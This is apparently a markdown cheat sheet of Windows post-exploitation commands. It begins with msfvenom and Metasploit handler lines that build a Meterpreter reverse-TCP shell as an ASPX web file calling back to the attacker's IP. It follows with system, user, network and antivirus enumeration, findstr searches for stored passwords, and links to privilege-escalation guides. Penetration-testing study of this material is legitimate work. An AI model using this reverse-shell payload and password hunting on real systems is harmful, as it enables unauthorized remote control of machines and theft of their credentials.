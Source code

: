 # Metasploit Windows Reverse Shell

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=4567 -f aspx > letmein.aspx 

use exploit/multi/handler

set payload windows/meterpreter/reverse_tcp
```

# Windows System Enumeration 
```
systeminfo

systeminfo | findstr /b /c:"OS Name" /c:"OS Version" /c:"System Type"

wmic qfe

wmic qfe Caption,Description,HotFixID,InstalledOn

wmic logicaldisk

wmic logicaldisk get caption,description,providername

wmic logicaldisk get caption
```

# Windows User Enumeration 
```
whoami

whoami /priv

whoami /groups

net user

net user jack

net localgroup

net localgroup administrators
```

# Windows Network Enumeration 
```
ipconfig

ipconfig /all

#Check Incoming / Outgoing Network Traffic
arp -a

#Check route table
route print

#Check open ports
netstat -ano
```

# Windows Password Hunting
```
#find 'password' in current directory with extension of txt,ini and config
findstr /si password *.txt *.ini *.config

#find 'password' in whole C: directory
dir /s C:\* | findstr /i "password"
```

# AV Enumeration
```
#Check Window Defender is up or down
sc query windefend

#Check running services
sc queryx type= service
```

# References
```
https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/

https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md

https://book.hacktricks.xyz/windows-hardening/checklist-windows-privilege-escalation

```
